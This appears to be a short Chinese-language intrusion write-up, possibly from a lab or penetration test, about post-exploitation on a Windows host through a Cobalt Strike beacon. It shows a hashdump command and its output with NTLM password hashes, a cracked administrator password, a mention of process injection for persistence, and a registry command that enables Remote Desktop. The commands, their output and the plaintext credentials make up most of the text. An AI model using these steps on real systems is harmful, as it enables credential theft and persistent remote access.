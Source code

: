 ## 上线cs

至于上传 exe ，是用 gsl 的上传功能实现的。抓取本机 hash

```
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 83198 bytes
[+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c51ba7c328cd01866885a37748816e07:::  这个解密 QWEadmin123
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

稳定下权限，进程注入

<img src=".\图片\Snipaste_2023-10-25_20-47-03.png" alt="Snipaste_2023-10-25_20-47-03" style="zoom:80%;" />

## 开启远程桌面

```
beacon> shell REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```
administrator:QWEadmin123
```
